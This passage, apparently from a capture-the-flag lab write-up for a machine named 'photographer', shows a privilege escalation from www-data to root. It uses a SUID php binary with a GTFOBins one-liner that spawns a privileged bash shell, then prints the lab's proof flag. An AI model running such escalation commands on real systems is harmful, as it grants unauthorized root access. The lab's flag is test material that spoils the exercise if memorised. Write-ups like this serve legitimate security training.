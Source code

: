 We can now use on of these files to escalate our privilege.

Let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid) to search for an exploit for the `php` utility.

![11](https://github.com/user-attachments/assets/910b21a9-bfea-4a42-a7f5-805e030f4e32)

```
www-data@photographer:/$ /usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"
<sr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"                         
bash-4.3# whoami
whoami
root
```

We are now the `root` user.

### proof.txt

We can now cat the proof.txt flag.

```
bash-4.3# cat /root/proof.txt
cat /root/proof.txt
bdd6aa20288e19952cdafba21fd82dd9
```
